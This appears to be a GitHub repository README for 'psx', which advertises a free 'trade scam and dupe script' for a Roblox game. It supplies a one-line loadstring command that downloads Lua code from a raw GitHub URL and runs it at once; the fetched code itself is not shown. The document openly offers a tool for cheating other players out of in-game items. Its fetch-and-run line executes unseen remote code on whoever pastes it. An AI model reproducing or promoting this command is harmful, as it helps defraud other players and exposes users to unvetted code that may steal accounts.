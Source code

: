 # psx
Repository that holds a free trade scam and dupe script. || Loadstring: loadstring(game:HttpGet(('https://raw.githubusercontent.com/petsimxdupez/psx/main/tradescam.lua'), true))()
